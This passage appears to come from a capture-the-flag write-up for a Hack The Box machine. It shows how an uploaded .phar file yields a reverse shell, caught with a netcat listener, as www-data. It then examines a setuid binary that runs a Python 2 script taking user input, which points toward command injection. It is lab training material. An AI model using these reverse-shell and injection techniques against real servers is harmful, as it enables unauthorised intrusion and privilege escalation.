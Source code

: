 Then I uploaded this and went to **http://dev.siteisup.htb/uploads/3d8dce74fff767a2d4fb85e9411ceefc/proc_open.phar** and to my surprise I did get the shell.

```bash
nc -nvlp 7777
Listening on 0.0.0.0 7777
Connection received on 10.10.11.177 51282
bash: cannot set terminal process group (908): Inappropriate ioctl for device
bash: no job control in this shell
www-data@updown:/var/www/dev/uploads/3d8dce74fff767a2d4fb85e9411ceefc$ whoami
whoami
www-data
```

# User as developer

## command-injection

So looking around a little bit we have access to the developer home and a dev directory with the siteisup page functionality:

```bash
www-data@updown:/home/developer$ cat dev/siteisup_test.py 
import requests

url = input("Enter URL here:")
page = requests.get(url)
if page.status_code == 200:
	print "Website is up"
else:
	print "Website is down"
```

```bash
www-data@updown:/home/developer/dev$ strings siteisup
/lib64/ld-linux-x86-64.so.2
libc.so.6
puts
setresgid
setresuid
system
getegid
geteuid
__cxa_finalize
__libc_start_main
GLIBC_2.2.5
_ITM_deregisterTMCloneTable
__gmon_start__
_ITM_registerTMCloneTable
u+UH
[]A\A]A^A_
Welcome to 'siteisup.htb' application
/usr/bin/python /home/developer/dev/siteisup_test.py

```
